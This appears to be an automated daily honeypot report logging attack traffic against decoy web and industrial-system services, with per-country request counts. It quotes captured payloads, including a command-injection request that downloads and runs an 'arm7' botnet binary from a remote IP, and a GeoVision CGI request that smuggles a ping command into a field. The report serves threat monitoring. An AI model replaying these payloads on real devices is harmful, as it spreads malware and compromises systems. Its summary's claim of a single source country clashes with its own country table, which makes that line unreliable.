 ```yaml
---
title: "Report: 2025-05-31 "
date: 2025-05-31
desciption: "Report: 2025-05-31" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-31 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 1 stage 1 IP address(es), linked to 1 dropper URL(s).  

There are 4 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 933 requests were recorded during the day, originating from 1 different countries, with a peak of 164 requests coming from BG.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr   | request                                                                                                                                                                                   |
|:--------------|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 141.98.11.147 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F94.26.90.251%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                        |
|----:|----------------------:|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 178 |                     1 | GET /F1pu HTTP/1.1                                                                                                                                                             |
| 179 |                     1 | GET /dZ6i HTTP/1.1                                                                                                                                                             |
| 221 |                     1 | GET /ISAPI/Security/userCheck HTTP/1.1                                                                                                                                         |
| 250 |                     1 | GET /PictureCatch.cgi?username=GEOVISION\x5C&password=%3Bping%20-c%201%20220.158.233.210%3B\x5C&data_type=1\x5C&attachment=1\x5C&channel=1\x5C&secret=1\x5C&key=PWNED HTTP/1.1 |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   164 | BG                 |
|  1 |                   158 | US                 |
|  2 |                   117 | CN                 |
|  3 |                   109 | DE                 |
|  4 |                    85 | NL                 |
|  5 |                    42 | GB                 |
|  6 |                    36 | SG                 |
|  7 |                    24 | PL                 |
|  8 |                    21 | CH                 |
|  9 |                    20 | SC                 |
| 10 |                    15 | FR                 |
| 11 |                    14 | LT                 |
| 12 |                    13 | SI                 |
| 13 |                    11 | GH                 |
| 14 |                     8 | IL                 |
| 15 |                     8 | NG                 |
| 16 |                     7 | TH                 |
| 17 |                     6 | UA                 |
| 18 |                     6 | JP                 |
| 19 |                     6 | IR                 |
| 20 |                     6 | VN                 |
| 21 |                     5 | PT                 |
| 22 |                     5 | ID                 |
| 23 |                     5 | CA                 |
| 24 |                     5 | ZA                 |
| 25 |                     4 | BR                 |
| 26 |                     4 | IN                 |
| 27 |                     4 | AZ                 |
| 28 |                     3 | ES                 |
| 29 |                     3 | KR                 |
| 30 |                     3 | TR                 |
| 31 |                     3 | AO                 |
| 32 |                     2 | BE                 |
| 33 |                     2 | KZ                 |
| 34 |                     2 | IT                 |
| 35 |                     2 | IE                 |
| 36 |                     1 | HK                 |
| 37 |                     1 | IQ                 |
| 38 |                     1 | MC                 |
| 39 |                     1 | PA                 |
| 40 |                     1 | SE                 |
